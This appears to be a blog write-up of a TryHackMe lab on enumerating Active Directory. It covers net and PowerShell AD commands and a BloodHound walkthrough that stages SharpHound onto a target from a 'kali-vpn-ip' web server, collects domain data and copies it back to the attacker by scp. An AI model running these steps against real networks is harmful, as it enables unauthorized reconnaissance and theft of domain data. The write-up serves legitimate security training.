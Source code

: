 # TryHackMe | Enumerating Active Directory

runas.exe
---------

In the example, we have the following command:

*   `/netonly` - use the credentials for network sessions only, all other commands run in the current user session on the local host
*   `/user` - the user we want to authenticate as in network sessions
*   `cmd.exe` spawn a new command prompt window with the injected network credential

```
runas.exe /netonly /user:domain.tld\username cmd.exe
```


An attacker could then use the network session to enumerate `SYSVOL` on the domain controller, since even low level users can read it

Kerberos vs. NTLM
-----------------

Kerberos authentication relies on fully qualified domain names (FQDN), because the FQDN of the service is referenced directly in the ticket. In Active Directory environments where Kerberos authentication is enabled, you may still be able to force services to fall back to NTLM authentication by using the IP address of a host.

NTLM is so heavily integrated into Microsoft products that in most cases it's going to be running side-by-side with Kerberos.

net command
-----------

*   `net user /domain` – Run on a domain-joined host to enumerate domain users
*   `net user user.name /domain` – Run on a domain-joined host to get information about a specific domain user
*   `net group /domain` – Run on a domain-joined host to enumerate domain groups
*   `net group groupName /domain` – Run on a domain-joined host to get the members of a domain group
*   `net accounts /domain` – Run on a domain-joined host to show the domain password and account lockout policy

### Drawbacks

*   `net` does not show nested groups
*   `net` only shows up to 10 groups even if a user is in more

SSH to the Jump Host
--------------------

```
ssh user.name@za.tryhackme.com@thmjmp1.za.tryhackme.com
```


Run the command `powershell` to open a PowerShell terminal. Since we are running PowerShell on a domain-joined host, we do not need to pass the `-Server` parameter shown in the examples.

Users
-----

*   `Get-ADUser -Filter *` – return all domain users
*   `Get-ADUser -Filter 'Name -like "*stevens"'` – find any user where name ends in `...stevens`
*   `Get-ADUser -Identity john.doe -Properties *` – find the user `john.doe` and return all properties

Groups
------

*   `Get-ADGroup -Filter *` – return all domain groups
*   `Get-ADGroup -Identity Administrators | Get-ADGroupMember` – pipe the `Administrators` group object to `Get-ADGroupMember` to retrieve members of the group

AD Objects
----------

*   Get any domain objects that we modified on or after a specific date and time

```
# February 28, 2022 00:00:00 (system time zone)
$modifiedDate = Get-Date '2022/02/28'
Get-ADObject -Filter "whenChanged -ge $modifiedDate" -IncludeDeletedObjects
```


Domains
-------

*   `Get-ADDomain` – get information about the domain from the domain controller

Change a User Password
----------------------

```
$oldPass = Read-Host -AsSecureString -Prompt 'Enter the old password'
$newPass = Read-Host -AsSecureString -Prompt 'Enter the new password'
Set-ADAccountPassword -Identity user.name -OldPassword $oldpPass -NewPassword $newPass
```

Bloodhound and Collectors
-------------------------

Bloodhound is the software that runs locally on an attacker's machine. The attacker must run a "collector" on a target where it will enumerate lots of information about the domain. After the collector finishes running, it will output a series of `.json` files for import into the attacker's Bloodhound interface.

Practical
---------

### Download Bloodhound

You can download the latest release of `sharphound.exe` from the GitHub releases page:


Releases · BloodHoundAD/SharpHound

```
wget https://github.com/BloodHoundAD/SharpHound/releases/download/v1.1.0/SharpHound-v1.1.0.zip
```


### Transfer to the Target

On my Kali VM, I am going to host a Python3 web server to transfer the `.zip` archive to the SSH session running on the jump host.

```
sudo python3 -m http.server 80
```


### Run Bloodhound

Now, from the jump host in the PowerShell session, I'll use these commands:

```
cd ~/Documents

# Download the .zip file from Kali
Invoke-WebRequest http://kali-vpn-ip/SharpHound-v1.1.0.zip -OutFile SharpHound-v1.1
.0.zip

# Unzip the archive with PowerShell
Expand-Archive SharpHound-v1.1.0.zip
cd SharpHound-v1.1.0
```


Now, we're ready to run the collector, `sharphound.exe` .

```
.\SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs
```


![](https://benheater.com/content/images/2022/08/image-47.png)

### Transfer Data to Kali

Now that the collector has finished running, I've got a `20220805005305_BloodHound.zip` that I need to transfer back to Kali for analysis. I'll use SCP to transfer the file.

```
scp username@za.tryhackme.com@thmjmp1.za.tryhackme.com:C:/Users/username/Documents/SharpHound-v1.1.0/20220805005305_BloodHound.zip .
```


### Analyze with Bloodhound

If this is your first time running Bloodhound, follow the instructions in the room to get started.

```
neo4j console &
bloodhound &
```


Drag and drop the `.zip` file to Bloodhound and wait for it to load the data.

![](https://benheater.com/content/images/2022/08/image-48.png)

![](https://benheater.com/content/images/2022/08/image-49.png)

#### Attack Paths

*   You can use the `Search for a node...` area to find specific users, groups, etc.
*   You can click on specific properties of the object to graph things out (eg. group memberships)
*   You can use the `Analysis` tab to run built-in queries (or write your own)
*   Much, much more